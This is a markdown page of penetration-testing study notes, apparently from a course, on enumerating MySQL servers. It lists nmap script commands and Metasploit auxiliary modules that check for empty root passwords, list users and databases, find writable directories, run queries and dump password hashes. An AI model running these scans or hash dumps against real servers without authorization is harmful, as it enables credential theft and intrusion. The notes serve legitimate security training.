 # Enumeration: MySQL
> MySQL is usually found on some flavor of Linux. Database software very common in many web sites, especially in enterprise systems. It's also very often misconfigured and therefore vulnerable.

- Default MySQL Port: `3306`

## Contents
- [](#)
- [](#)
- [](#)
- [](#)
- [](#)

## Nmap Scripts

### Default Scripts
> Start wide and general, then focus on things your find. Start with default scripts.
```
nmap -sV -sC -p 3306 [target ip]
```

### mysql-empty-password
> This will look for accounts that don't require a password Checks for MySQL servers with an empty password for root or anonymous.
```
nmap -sV -p 3306 --script mysql-empty-password [target ip]
```

### mysql-info
> More information on the db itself If you see "Interactive Client," that's interesting. 
```
nmap -sV -p 3306 --script mysql-info[target ip]
```

### mysql-users
> Should provide you with a list of users on the db system (add to enumeration notes)
```
nmap -sV -p 3306 --script mysql-users --script-args "mysqluser='root',mysqlpass=''" [target ip]
```

### mysql-databases
> Should provide you with a list of databases on the system (add to enumeration notes)
```
nmap -sV -p 3306 --script mysql-databases --script-args "mysqluser='root',mysqlpass=''" [target ip]
```
- You get a mess of information.  Look for (most useful):  `datadir: /var/lib/mysql`
- That tells you were the variables are stored (this has potential uses)

### mysql-audit
```
nmap -sV -p 3306 --script mysql-audit --script-args "mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'" [target ip]
```
- NOTE: "Do not grant GRANT privileges to non Admin users => PASS" (that's good security but bad for us)
- Three args are required: [documentation](https://nmap.org/nsedoc/scripts/mysql-audit.html)
  - mysql-audit.username='root'
  - mysql-audit.password='foobar'
  - mysql-audit.filename='nselib/data/mysql-cis.audit'  [usually in /usr/share/nmap/]

### mysql-dump-hashes
> Should get all the hashes (just like with the msf scan below)
```
nmap -sV -p 3306 --script mysql-dump-hashes --script-args "username='root',password=''" [target ip]
```

### mysql-query
> Run an SQL query via an nmap script
```
nmap -sV -p 3306 --script mysql-query --script-args "query='select count(*) from books.authors;',username='root',password=''" [target ip]
```
- NOTE: Syntax of SQL Count() function...
```
SELECT COUNT(expression)
FROM table
WHERE condition;
```
- *Expression* is the parameter where you specify which values you want to count. It can be a field or string type value.
- *Table* is the table you use as a source to fetch records. You need to hyave at least one table.
- *WHERE* is an optional condition for selecting records from the table. 

## MetaSploit
> If you are not very familiar with SQL, you can use the MSF as a crutch.

### mysql_writable_dirs
```
> use auxiliary/scanner/mysql/mysql_writable_dirs
> options
> set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt
  # tab completion is your friend
> setg rhosts [target ip]
  # setg is global so you don't have to keep setting rhosts if you're going to be hammering on the same ip all the time. Sets it for the current session only, but for the whole session.
> set verbose false
  # This is found in the advanced options section ( > advanced )
> set password ""
  # Sets to null
> run
```
- Outputting these kinds of things to a file can be a lot easier to parse
- Find writable dirs, etc.  (tmp and root are the only writable dirs on this lesson)
- NOTE: you found writable dirs in the target FILESYSTEM (not in the database), and you found them by scanning the database.

### mysql_hashdump
```
> use auxiliary/scanner/mysql/mysql_hashdump
> options
  # if you use setg for rhosts, it should already be set
> set username root
> set password ""
> run
```
- You just might get a whole bundle of hashs you can add to our list of enumerated goodies

## MySQL Commands
